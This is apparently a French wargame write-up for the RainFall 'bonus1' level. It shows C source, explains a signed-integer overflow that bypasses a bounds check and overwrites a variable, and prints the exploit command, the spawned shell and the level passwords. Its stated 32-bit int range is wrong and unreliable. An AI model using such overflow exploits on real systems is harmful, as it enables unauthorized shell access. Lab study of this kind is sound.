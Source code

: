 # Bonus1

pass : `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`

## Source :

```c
#include <stdlib.h>
#include <string.h>

int		main(int ac, char **av) {  // 0x08048424
	char str[40];  // esp+0x14  --  size : 0x3c - 0x14
	int nb;  // esp+0x3c

	nb = atoi(av[1]);
	if (nb > 9) {
		return 1;
	}
	memcpy(str, av[2], 4 * nb);
	if (nb == 0x574f4c46) {
		execl("/bin/sh", "sh", 0);
	}
	return 0;
}
```

## Recherche :

> Ici, on va vouloir changer la valeur de `nb` avec le `memcpy()`, comme on le voit `str` et `nb` sont contingent, donc en écrivant suffisamment loin dans `str` on pourrait écrire sur `nb`. Suffisamment loin, c'est 40 caractères pour `str` et 4 autres pour écrire sur `nb`. Soit un total de `44` caractères.
>
> `nb` doit être remplacé par `0x574f4c46`.

Ce qu'on veut donc, c'est `memcpy(str, av[2], 4 * nb)`, avec `nb == 11`.
Le problème, c'est que `nb` ne peut pas dépasser `9`.

Mais c'est pas très grave, car les int sont circulaires, en effet quand on passe le plus grand int, on arrive au plus petit.

On est en **32bit**, du coup les int sont codés entre `0x00000000` et `0xffffffff`, ce qui fait `2^32 - 1` valeures possibles. Comme ils sont signé, c’est divisé par 2, le plus petit int, c’est `-(2^30 - 1)` et le plus grand `2^30`
Du coup `0 + InfMin - InfMax == 0`  soit  `0 + -(2^30 - 1) - 2^30  == 0`

```python
>>> -(2**30 - 1) - (2**30) + 11
-2147483636
```

## Exploit :

```shell
bonus1@RainFall:~$ ./bonus1 -2147483636 $(python -c 'print "A"*40+ "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cd ../bonus2
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
